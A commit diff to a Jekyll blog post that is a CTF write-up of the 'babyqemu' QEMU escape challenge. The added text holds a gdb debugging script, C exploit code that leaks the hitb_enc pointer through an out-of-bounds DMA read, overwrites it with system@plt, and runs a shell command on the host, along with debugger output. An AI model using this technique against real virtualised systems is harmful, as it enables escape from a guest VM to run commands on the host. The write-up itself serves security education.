

Before and after one commit to redpigsixsixsix/redpigsixsixsix.github.io, a Jekyll site: the page built from _posts/2021-03-19-QemuEscapeBasic.md, in a window 1280 px wide and 1400 px high, scrolled down 11020 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-03-19-QemuEscapeBasic.md

````diff
--- a/_posts/2021-03-19-QemuEscapeBasic.md
+++ b/_posts/2021-03-19-QemuEscapeBasic.md
@@ -13,6 +13,14 @@ git clone https://github.com/w0lfzhang/vmescape
 ```
 
 # babyqemu
+
+```
+sudo apt-get install libaio1 libaio-dev
+sudo add-apt-repository ppa:xapienz/curl34
+sudo apt-get update
+sudo apt install libcurl3
+```
+
 Usually, we will be provided with a compiled qemu file named `qemu-system-x86_64`
 The organizer will preset some **vulnerable functions** in it.
 In most of the situation, these vulnerable functions have the same prefix, and the `qemu-system-x86_64` is not stripped.
@@ -29,6 +37,10 @@ We can easily find them in IDA.
 -m 64M --nographic  -L ./dependency/usr/local/share/qemu \
 -L pc-bios \
 -device hitb,id=vda
+
+login with
+root
+[EMPTY]
 ```
 We can check the launch.sh file, and find the device name is **hitb**. So we search `hitb` in IDA.
 
@@ -310,16 +322,167 @@ So that we can leak the enc function after the dma_buf and edit it.
 
 ```
 apt install musl-tools
-mkdir rootfs
+mkdir rootfs && cd rootfs
 cpio -idmv < ../rootfs.cpio
 
-#!/usr/bin
+#!/bin/sh
 cd rootfs
 musl-gcc -static -o exp ../exp.c
 find . | cpio -H newc -o > ../rootfs.cpio
+```
+
+We can make a debugging script and then load it with `-x`
+```
+aslr off
+handle SIGUSR1 nostop noprint
+b hitb_mmio_write
+b *hitb_dma_timer+0x46
+
+r -initrd ./rootfs.cpio \
+-kernel ./vmlinuz-4.8.0-52-generic \
+-append 'console=ttyS0 root=/dev/ram oops=panic panic=1' \
+-enable-kvm \
+-monitor /dev/null \
+-m 64M --nographic  -L ./dependency/usr/local/share/qemu \
+-L pc-bios \
+-device hitb,id=vda
+```
+
+## Scripting
+
+First we should open the coressponding resource0 file, Then we mapping it to a guest memory(mmio_mem).
+```C
+    // Open and map I/O memory for the strng device
+    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
+    if (mmio_fd == -1)
+        die("mmio_fd open failed");
+
+    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
+    if (mmio_mem == MAP_FAILED)
+        die("mmap mmio_mem failed");
+
+    printf("mmio_mem @ %p\n", mmio_mem);
+```
+
+Cause the `cpu_physical_memory_rw` uses physical address, we need to convert the virtual address into the physical address.
+We allocate a DMA buffer and convert the virtual address into physical address with `gva_to_gpa`.
+```C
+    // Allocate DMA buffer and obtain its physical address
+    userbuf = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
+    if (userbuf == MAP_FAILED)
+        die("mmap");
+
+    mlock(userbuf, 0x1000);
+    phy_userbuf=gva_to_gpa(userbuf);
+```
+Because the dma buffer's length is 0x1000, and the encrypt function is right behind it.
+```
+00000BB8 dma_buf         db 4096 dup(?)
+00001BB8 enc             dq ?                    ; offset
+```
+Following functions are used to trigger the callback function hitb_mmio_write.
+```
+void dma_set_src(uint32_t src_addr)
+{
+    mmio_write(0x80,src_addr);
+}
+
+void dma_set_dst(uint32_t dst_addr)
+{
+    mmio_write(0x88,dst_addr);
+}
+
+void dma_set_cnt(uint32_t cnt)
+{
+    mmio_write(0x90,cnt);
+}
+
+void dma_do_cmd(uint32_t cmd)
+{
+    mmio_write(0x98,cmd);
+}
+
+void dma_do_read(uint32_t addr, size_t len)
+{
+    dma_set_dst(phy_userbuf);
+    dma_set_src(addr);
+    dma_set_cnt(len);
+    dma_do_cmd(2|1);
+    sleep(1);
+}
+```
+After setting `dma.dst` to the physical address of our user buffer and set the `dma.src` to the idx, which is 0x40000+0x1000.
+Setting the reading length to 8, `dma.cmd` to `2|1`.
+Timer function will be triggered.
+And the encrypt function's address will be leaked into the mmaped buffer.
+```
+# ./exp
+mmio_mem @ 0x7f7a448f5000
+user buff virtual address: 0x7f7a448f4000
+user buff physical address: 0x225e000
+leaking enc function: 0x564c3b30fdd0
+
+gdb-peda$ x/20i 0x564c3b30fdd0
+   0x564c3b30fdd0 <hitb_enc>:	test   esi,esi
+   0x564c3b30fdd2 <hitb_enc+2>:	je     0x564c3b30fdec <hitb_enc+28>
+   0x564c3b30fdd4 <hitb_enc+4>:	lea    eax,[rsi-0x1]
+   0x564c3b30fdd7 <hitb_enc+7>:	lea    rax,[rdi+rax*1+0x1]
+   0x564c3b30fddc <hitb_enc+12>:	nop    DWORD PTR [rax+0x0]
+   0x564c3b30fde0 <hitb_enc+16>:	xor    BYTE PTR [rdi],0x66
+   0x564c3b30fde3 <hitb_enc+19>:	add    rdi,0x1
+   0x564c3b30fde7 <hitb_enc+23>:	cmp    rdi,rax
+   0x564c3b30fdea <hitb_enc+26>:	jne    0x564c3b30fde0 <hitb_enc+16>
+   0x564c3b30fdec <hitb_enc+28>:	repz ret
+   0x564c3b30fdee:	xchg   ax,ax
+   0x564c3b30fdf0 <pci_hitb_register_types>:	lea    rdi,[rip+0x6e5229]        # 0x564c3b9f5020 <hitb_info.27046>
+```
+
+Now we can calculate the system@plt with `hitb_enc`.
+Write system@plt back into enc function with the oob write vulnerability.
+
+```
+[-------------------------------------code-------------------------------------]
+   0x5555557d8134 <hitb_dma_timer+164>:	lea    rbp,[rdi+rax*1+0xbb8]
+   0x5555557d813c <hitb_dma_timer+172>:	mov    rdi,QWORD PTR [rdi+0xb68]
+   0x5555557d8143 <hitb_dma_timer+179>:	mov    rsi,rbp
+=> 0x5555557d8146 <hitb_dma_timer+182>:	call   0x555555763070 <cpu_physical_memory_rw>
+   0x5555557d814b <hitb_dma_timer+187>:	mov    rax,QWORD PTR [rbx+0xb80]
+   0x5555557d8152 <hitb_dma_timer+194>:	mov    rdx,rax
+   0x5555557d8155 <hitb_dma_timer+197>:	and    edx,0x4
+   0x5555557d8158 <hitb_dma_timer+200>:	je     0x5555557d80e8 <hitb_dma_timer+88>
+Guessed arguments:
+arg[0]: 0x341c000
+arg[1]: 0x555557fa08b8 --> 0x5555557d7dd0 (<hitb_enc>:	test   esi,esi)
+arg[2]: 0x8
+arg[3]: 0x0
+[------------------------------------stack-------------------------------------]
 
 
+gdb-peda$ x/20gx 0x555557fa08b8
+0x555557fa08b8:	0x0000555555751b18	0x000000000fffffff
+0x555557fa08c8:	0x0000000000000000	0x0000000000000000
+0x555557fa08d8:	0x0000000000000051	0x0000555557f9ea90
+0x555557fa08e8:	0x0000555557f9ecb0	0x0000000000000000
+
+gdb-peda$ x/20i 0x0000555555751b18
+   0x555555751b18 <system@plt>:	jmp    QWORD PTR [rip+0x92248a]        # 0x555556073fa8
+   0x555555751b1e <system@plt+6>:	xchg   ax,ax
 ```
+
+Then we can just call system with the encode function. It will actually call system(dma_buf).
+```C
+    // out of bound to overwrite enc ptr to system ptr
+    dma_do_write(0x1000+DMABASE,&system_plt,8);
+
+    // deply the parameter of system function
+    char *command="cat /root/flag\x00";
+    dma_do_write(0x200+DMABASE,command,strlen(command));
+
+    // trigger the enc ptr to execute system
+    dma_do_enc(0x200+DMABASE,8);
+```
+
+
 
 
 
````
